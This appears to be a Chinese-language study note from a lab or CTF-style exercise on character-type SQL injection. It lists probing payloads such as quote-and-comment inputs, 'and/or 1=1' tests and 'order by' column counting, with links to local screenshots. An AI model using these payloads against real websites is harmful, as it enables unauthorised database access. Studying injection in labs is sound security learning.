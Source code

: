 ![image-20240123000035068](E:\学习资料\网安\笔记\笔记截图\image-20240123000035068.png)

## SQL注入

**字符型注入**

根据提示先输入个1发现SQL语句

```mysql
select * from news where id='1'
```

![image-20240119221809571](E:\学习资料\网安\笔记\笔记截图\image-20240119221809571.png)

使用#把后面的单引号给注释掉

```
1' #
```

![image-20240119222036314](E:\学习资料\网安\笔记\笔记截图\image-20240119222036314.png)

输入and判断是否能被过滤

```
1' and 1=1#
```

![image-20240119222302180](E:\学习资料\网安\笔记\笔记截图\image-20240119222302180.png)

```
1' and 1=2#
```

![image-20240119222419363](E:\学习资料\网安\笔记\笔记截图\image-20240119222419363.png)

判断or是否能被过滤

```
1' or 1=1#
```

![image-20240119222623415](E:\学习资料\网安\笔记\笔记截图\image-20240119222623415.png)

```
1' or 1=2#
```

![image-20240119222703650](E:\学习资料\网安\笔记\笔记截图\image-20240119222703650.png)

判断列数

```
1' order by 1,2,3#
```

![image-20240119222915584](E:\学习资料\网安\笔记\笔记截图\image-20240119222915584.png)
